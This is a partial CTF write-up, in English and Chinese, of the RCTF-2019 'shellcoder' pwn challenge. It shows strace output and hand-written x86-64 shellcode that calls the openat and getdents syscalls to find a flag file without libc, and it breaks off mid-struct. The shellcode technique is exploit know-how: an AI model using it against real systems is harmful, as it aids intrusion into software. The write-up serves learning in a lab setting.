 so we will have enough space for our shellcode.
But we can't locate the flag, there is no libc for us , what we have is shellcode.

## Ls
I straced `ls`:
`strace -o ls ls`

```s
$ cat ls
...
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
fstat(3, {st_mode=S_IFDIR|0755, st_size=4096, ...}) = 0
getdents(3, /* 24 entries */, 32768)    = 752
getdents(3, /* 0 entries */, 32768)     = 0
...
+++ exited with 0 +++
``` 
...

```c
int getdents(int fildes, struct dirent *buf, size_t nbyte);
int __openat (int fd, const char *file, int oflag, ...);
```
...
发现我的英文真烂 真他妈难表达。。。换用中文缓和一下心情。
所以我开始尝试使用257号和78号系统调用来实现定位`flag`

## openat
`openat` 用于打开目录
按照使用说明设置好寄存器发现成功返回了文件指针
```asm
mov ax,0x101
mov rdi,-101
mov rsi,0x67616c662f2e
push rsi
mov rsi,rsp
mov rdx,0
mov r10,0
syscall
```
## getdents

`getdents`用于读取目录内容使用起来比较容易设置好参数就可以不过比较惨的是返回值需要自己去解析.

看了半天源码解析部分看不太明白，结构体部分还是挺有用的
```c
struct dirent
  {
#ifndef __USE_FILE_OFFSET64
    __ino_t d_ino;
    __off_t d_off;
#else
    __ino64_t d_ino;
    __off64_t d_off;
#endif
    unsigned short int d_reclen;
    unsigned char d_type;
    char d_name[256];                /* We must not include limits.h! */
  };
#ifdef __USE_LARGEFILE64
struct dirent64
  {
    __ino64_t d_ino;
    __off64_t d_off;
```

[1]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/shellcoder
[2]: https://cloud.tencent.com/developer/article/1143454